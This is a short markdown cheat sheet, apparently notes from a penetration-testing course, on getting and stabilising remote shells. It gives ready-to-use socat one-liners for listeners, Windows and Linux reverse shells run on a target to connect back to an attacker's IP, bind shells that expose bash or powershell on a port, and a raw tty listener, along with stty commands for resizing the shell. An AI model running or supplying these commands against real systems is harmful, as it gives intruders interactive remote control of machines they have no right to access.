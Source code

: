 Next, in your reverse/bind shell, type in:
```
~stty rows <number>
~stty cols <number>	
```
This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

# socat

### Reverse Shell

```
socat TCP-L:<port> -
```
basic reverse shell listener in socat

>will work on Linux or Windows

```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```
windows reverse shell from target

```console
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```
Linux Reverse shell from target

---

## Bind Shell

```console
socat TCP-L:<PORT> EXEC:"bash -li"
```
>target command

```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
``` 
>listener for windows

```
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```
>used to connect from attacking machine

---

## Stable tty reverse shell

>will only work on a Linux target

```
socat TCP-L:<port> FILE:`tty`,raw,echo=0 
```
